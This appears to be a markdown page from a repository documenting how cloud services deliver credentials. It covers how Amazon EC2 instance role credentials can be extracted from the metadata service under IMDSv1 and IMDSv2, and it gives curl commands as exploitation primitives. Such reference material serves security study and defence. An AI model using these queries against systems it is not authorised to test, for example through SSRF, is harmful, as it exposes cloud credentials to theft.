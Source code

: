 # Amazon EC2

Amazon EC2 is one of the most popular services. It allows you to run vitrtual machines.


| Property      | Value                          |
| ----------- | ------------------------------------ |
| Credentials delivery mechanism       | [Served through link-local metadata service](../types-of-credentials-delivery.md#served-through-link-local-metadata-service)  |
| Protection type       | None (IMDSv1), or HTTP header requires a stateful session token (IMDSv2) |
| Exploitation primitives    | `Query arbitrary URL` (IMDSv1), `Query arbitrary URL` and `Perform HTTP requests with arbitrary method, URL and body` (IMDSv2) |

## Extracting credentials

### If IMDSv2 is not enforced

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```

This will return the name of the role attached to the EC2 instance, that you can use in a subsequent HTTP request to retrieve temporary credentials for the role:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/MyInstanceRole
```

### If IMDSv2 is enforced

```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials
```

This will return the name of the role attached to the EC2 instance, that you can use in a subsequent HTTP request to retrieve temporary credentials for the role:

```bash
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/MyInstanceRole
```

## References

- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-v2-how-it-works